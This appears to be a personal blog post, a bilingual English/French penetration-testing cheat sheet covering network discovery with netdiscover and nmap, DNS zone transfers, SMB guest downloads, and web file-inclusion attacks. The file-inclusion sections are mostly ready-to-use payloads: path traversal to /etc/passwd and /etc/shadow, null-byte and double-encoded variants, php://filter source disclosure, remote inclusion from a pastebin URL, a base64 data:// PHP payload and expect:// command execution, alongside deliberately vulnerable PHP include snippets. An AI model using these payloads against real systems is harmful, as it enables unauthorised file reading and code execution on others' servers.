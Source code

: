 ```yaml
---
layout: post
title: "Cheatseet"
author: "fhbapt"
permalink: /cheatseet/
---
```


## Table of Contents


### [Network](#network)  
 * [Network discovery](#network-discovery)
    * [Netdiscover](#netdiscover) 
    * [Nmap](#nmap)
  * [Services enumerations](#services)
    * [53 - DNS](#dns)
    * [139/445 - SMB](#smb)

### [Web vulnerabilities](#web)
 * [File Inclusion](#file-inclusion)
   * [LFI (Local File Inclusion)](#lfi)
   * [RFI (Remote File Inclusion)](#rfi)

## Common tools for network discovery <a name="network-discovery"></a>
In this chapter, the most common tools and commands use to dicover network architecture are presented. 

### Netdiscover commands <a name="netdiscover"></a>

> Netdiscover is an active/passive arp reconnaissance tool


```netdiscover -p``` Sniffing network trafic, Netdiscover sent anything 


```netdiscover -r 192.168.X.X/24``` Scan of subnetwork 192.168.X.X/24 by sending ARP frames


### Nmap commands <a name="nmap"></a>

```nmap -sL 192.168.X.X/24``` Permet de scanner les hôtes d'un sous réseau

```nmap -sP 192.168.X.X/24``` Lister les hôtes du réseau qui répondent à l'ICMP

```nmap -sU 192.168.X.X``` Scan d'une machine pour lister ses ports ouverts en UDP

```nmap -Pn -A 192.168.X.X(/24) --open``` Scan des machines ou réseau avec la liste des ports ouverts

```nmap -Pn --script=smb-enum-shares -p 445 192.168.X.X```

## Services enumerations <a name="services"></a>

### 53 - DNS <a name="dns"></a>

> Un transfert de zone complet (AXFR) consiste pour un serveur DNS esclave à demander une copie de zone de à un serveur maitre qui le permet. Cette fonctionnalité est reprise par l'attaquant pour découvrir des sous domaines.

Commands DIG :

```dig axfr @dns-server nom-de-domaine``` 

### 139/445 - SMB <a name="smb"></a>

SMB Commands :

```smbclient -U guest //192.168.X.X/share``` Télécharge les fichiers sur un serveur SMB

```smbget -U guest -R smb://192.168.X.X/share ``` Télécharge les fichiers sur un serveur SMB

## File Inclusion <a name="file-inclusion"></a>

### LFI (Local File Inclusion) <a name="lfi"></a>

Vulnérabilité permettant l'inclusion de fichier local.

Exemple de LFI :

```php
<?php @include("./page/".$_GET['page']) ?>
```

**Basic LFI**

```https://fhbapt.github.io/?page=index.php``` Récupération du fichier index.php

```https://fhbapt.github.io/?page=../config.php``` Récupération du fichier config.php

```https://fhbapt.github.io/?page=./../../../etc/password``` Recupération du fichier password

Les fichiers intéressants :
 * /etc/passwd
 * /etc/shadow
 * /etc/hosts
 * /etc/group
 * /proc/cmdline
 * Fichiers de logs
 * Fichiers de backups

**Null Byte, Double encoding**

```https://fhbapt.github.io/?page=etc/password%00``` Null Byte : %00

**Double Encoding**

`https://fhbapt.github.io/?page=%252e%252e%252fetc%252fpasswd`

`https://fhbapt.github.io/?page=%252e%252e%252fetc%252fpasswd%00`

**Wrapper php://filter**

`https://fhbapt.github.io/?page=php://filter/read=string.rot13/resource=index.php` Récupérer une page en la convertissant en rot13

`https://fhbapt.github.io/?page=php://filter/convert.base64-encode/resource=index.php` "" base64

`https://fhbapt.github.io/?page=pHp://FilTer/convert.base64-encode/resource=index.php` "" avec variation des min/MAJ

### RFI (Remote File Inclusion) <a name="rfi"></a>

Vulnérabilité permettant l'inclusion de fichier distant.

Exemple de RFI :

```php
<?php @include($_GET['page']) ?>
```

**Basic RFI**

Utilisation de pastbin pour émuler le serveur et inclure le code du pastbin:

```https://fhbapt.github.io/?page=https://pastebin.com/raw/G68SZPQG``` Le pastbin correspond à un phpinfo()

**Wrapper data://**

```
https://fhbapt.github.io/?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==
# La payload est <?php phpinfo(); ?>
```

**Wrapper expect://**

> Permet d'interpreter du code système directement

`https://fhbapt.github.io/?page=expect://ls`

`https://fhbapt.github.io/?page=expect://id`
